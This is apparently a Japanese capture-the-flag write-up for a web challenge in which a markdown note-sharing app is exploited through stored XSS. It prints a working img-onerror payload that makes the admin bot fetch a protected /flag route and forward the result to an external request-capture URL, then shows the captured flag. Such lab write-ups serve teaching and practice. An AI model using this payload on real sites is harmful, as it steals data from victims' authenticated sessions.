 # markdown:web:80pts
My friend made an app for sharing their notes!  
App: [https://markdown.web.actf.co/](https://markdown.web.actf.co/)  
Send them a link: [https://admin-bot.actf.co/markdown](https://admin-bot.actf.co/markdown)  

[index.js](index.js)  

# Solution
サイトとAdmin BotのURLと、ソースが渡される。  
アクセスするとmarkdown形式のノートが保存できるサイトのようだ。  
![site1.png](site/site1.png)  
![site2.png](site/site2.png)  
ノートごとに`https://markdown.web.actf.co/view/3da090eb6251e22a`のような個別のURLとなる。  
Admin Botがあることから考えてもXSSのようだ。  
ソースを見るとフラグに関連する箇所は以下の通りであった。  
```js
~~~
app.get('/flag', (req, res) => {
    const cookie = req.headers.cookie ?? ''
    res.type('text/plain').end(
        cookie.includes(process.env.TOKEN)
        ? process.env.FLAG
        : 'no flag for you'
    )
})
~~~
```
`/flag`を叩けばよいが、`TOKEN`を確認しているのでAdmin Botでfetchしなければならない。  
markdownとして、XSSの基本となるペイロードを投げると、`<script>alert(1)</script>`は動かないが`<img src=1 onerror=alert(1)>`でアラートした(innerHTMLのようだ)。  
リクエストを受け取るサーバを[用意し](https://pipedream.com/requestbin)、以下のペイロードをノートとして保存する。  
```html
<img src=1 onerror='fetch("/flag").then(res => res.text()).then(text => location.href="https://entrc16w8nkok.x.pipedream.net/?s=" + text)'>
```
ノートのURLとして`https://markdown.web.actf.co/view/a2a52b75931ad531`が手に入るので、Admin Botに送信して踏ませる。  
するとサーバへ以下のようなリクエストが届く。  
```
GET
/?s=actf{b534186fa8b28780b1fcd1e95e2a2e2c}
```
flagが得られた。  

## actf{b534186fa8b28780b1fcd1e95e2a2e2c}